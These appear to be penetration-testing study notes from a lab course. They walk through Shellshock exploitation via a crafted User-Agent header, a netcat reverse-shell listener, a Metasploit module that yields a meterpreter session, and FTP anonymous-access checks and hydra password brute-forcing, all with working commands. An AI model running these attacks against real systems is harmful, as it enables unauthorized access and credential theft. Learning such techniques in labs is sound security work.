 Will then search the location of the script with burp proxy on 
+ In this example it would be `192.24.241.3/gettime.cgi`
+ Which will catch the following:

![](OGBurpCapture.png)

Will then <mark style="background: #FFF3A3A6;">change the User-Agent info</mark> to have the `() [:;];.` characters followed by the commands we want to run 

![](ShellshockexploitBurp.png)

Can now <mark style="background: #ADCCFFA6;">use this to setup a Reverse Shell</mark>
+ Will first set up a Kali listener 
  + Example `nc -nvlp 1234`
+ Then will send the following:

![](ShellshockManualReverseShell.png)

Can do things such as 
+ `whoami`
+ see distribution with `cat /etc/*issue`
+ Kernel info with `uname -a`

Can automate this process with <mark style="background: #FF5582A6;">msfconsole</mark>
+ can `search shellshock`
+ `use exploit/multi/http/apache_mod_cgi_bash_env_exec`
+ `set RHOSTS 192.45.16.3`
+ specify the path to the `.cgi` script with `set TARGETURI /gettime.cgi`
+ After running it, will have a meterpreter session 

### Exploiting FTP ###

#### Exploiting FTP ####
+ <mark style="background: #BBFABBA6;">FTP</mark> (File Transfer Protocol) uses TCP port 21 and is used to facilitate file sharing between a server and clients
+ Frequently used as a means of transferring files to and from the director of a web server 
+ FTP authentication requires a username and password combination. So we can brute-force attack on the FTP server in order to identify legitimate credentials
+ In some cases, FTP servers may be configured to allow anonymous access, which consequently allows anyone to access the Ftp server without providing any legitimate credentials

Can check for <mark style="background: #ADCCFFA6;">anonymous access</mark> with the following ways 
+ `ftp TARGET_IP` and then put `anonymous` for the user name, skip the password (enter)
+ or use an nmap script specifically:  <mark style="background: #FFB86CA6;">--script=ftp-anon</mark>
  + <mark style="background: #FF5582A6;">Note:</mark> can look for nmap scripts with `ls -al /usr/share/nmap/scripts/ | grep ftp-*`

Can also <mark style="background: #FFF3A3A6;">brute-force</mark> with <mark style="background: #D2B3FFA6;">hydra</mark>
+ Example: `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.27.30.3 -t 4 ftp`
	+ `-L` specifies user list
	+ `-P` specifies password list
	+ `-t` specifies numbers of threads 
	+ `ftp` is used to specify the service
